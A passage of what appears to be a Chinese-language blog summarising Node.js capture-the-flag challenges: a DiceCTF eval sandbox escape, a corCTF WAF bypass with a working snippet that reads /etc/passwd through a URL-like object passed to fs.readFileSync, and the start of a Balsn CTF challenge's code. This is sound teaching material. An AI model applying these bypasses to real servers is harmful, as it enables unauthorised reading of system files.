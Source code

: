 基本上就是先把所有東西變成 `undefined`，最後會用 `eval` 執行你傳進去的程式碼。雖然你可以跑任何東西，但因為所有東西都變成 `undefined` 了，你沒什麼能做的。

解法有三個：

1. `import()`，這個沒被刪掉
2. 用 `arguments.callee.caller.arguments` 可以拿到上層被覆蓋掉的 arguments（Node.js 自動幫你包的一層）
3. 用 try catch 可以拿到 Error 的 instance

詳細 writeup: https://blog.huli.tw/2022/02/08/what-i-learned-from-dicectf-2022/#miscundefined55-solves

### corCTF 2022 - simplewaf

這題的核心是這樣：

``` js
if([req.body, req.headers, req.query].some(
    (item) => item && JSON.stringify(item).includes("flag")
)) {
    return res.send("bad hacker!");
}
res.send(fs.readFileSync(req.query.file || "index.html").toString());
```

你可以控制 `req.query.file` 但是不能包含 `flag` 這個字，目標是讀到 `/app/flag.txt` 這個檔案。

這題需要去看 `fs.readFileSync` 的內部實作，會發現可以傳入一個長得很像 URL instance 的物件，就會用 new URL() 去讀，就可以用 URL encode 繞過了：

``` js
const fs = require('fs')

console.log(fs.readFileSync({
  href: 1,
  origin: 1,
  protocol: 'file:',
  hostname: '',
  pathname: '/etc/passw%64'
}).toString())
// 等同於 readFileSync(new URL("file:///etc/passw%64"))
```

作者 writeup：https://brycec.me/posts/corctf_2022_challenges#simplewaf

### Balsn CTF 2022 - 2linenodejs

程式碼核心長這樣：

``` js
#!/usr/local/bin/node
process.stdin.setEncoding('utf-8');
process.stdin.on('readable', () => {
  try{
    console.log('HTTP/1.1 200 OK\nContent-Type: text/html\nConnection: Close\n');
    const json = process.stdin.read().match(/\?(.*?)\ /)?.[1],
    obj = JSON.parse(json);
    console.log(`JSON: ${json}, Object:`, require('./index')(obj, {}));
  }catch (e) {
    require('./usage')
  }finally{
    process.exit();
  }
});

// index
module.exports=(O,o) => (
    Object.entries(O).forEach(
        ([K,V])=>Object.entries(V).forEach(
            ([k,v])=>(o[K]=o[K]||{},o[K][k]=v)
        )
```